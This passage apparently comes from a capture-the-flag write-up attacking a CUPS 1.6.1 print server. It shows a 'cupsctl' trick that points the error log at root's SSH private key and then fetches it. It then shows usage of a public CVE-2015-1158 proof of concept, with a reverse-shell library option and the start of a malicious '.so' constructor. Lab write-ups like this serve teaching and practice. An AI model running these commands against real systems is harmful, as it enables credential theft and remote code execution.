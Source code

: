     
    
    lp@antique:/dev/shm$ cupsctl ErrorLog=/root/.ssh/id_rsa
    lp@antique:/dev/shm$ curl 127.0.0.1:631/admin/log/error_log?
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
    <HTML>
    <HEAD>
            <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
            <TITLE>Not Found - CUPS v1.6.1</TITLE>
            <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
    </HEAD>
    <BODY>
    <H1>Not Found</H1>
    <P></P>
    </BODY>
    </HTML>
    

I will get a shell an unintended way in Beyond Root.

## Beyond Root

### CVE-2015-1158

In Googling for CUPS vulnerabilities, I’ll come across CVE-2015-1158, which is
remote code execution in CUPS < 2.0.3, which could very well include 1.6.1.

[This
script](https://github.com/0x00string/oldays/blob/master/CVE-2015-1158.py) is
a POC, so I’ll give it a try.

Downloading it, it’s a Python2 script, and it takes a host, a port, and a
library to run:

    
    
    oxdf@hacky$ python2 cve-2015-1158.py             ...[snip]...
    python script.py <args>
       -h, --help:             Show this message
       -a, --rhost:            Target IP address
       -b, --rport:            Target IPP service port
       -c, --lib               /path/to/payload.so
       -f, --stomp-only        Only stomp the ACL (no postex)
    
    Examples:
    python script.py -a 10.10.10.10 -b 631 -f
    python script.py -a 10.10.10.10 -b 631 -c /tmp/x86reverseshell.so
    

I’ll create a simple `.so` file:

    
    
    #include<stdio.h>
    #include<stdlib.h>
    
    void __attribute__((constructor)) evil();
    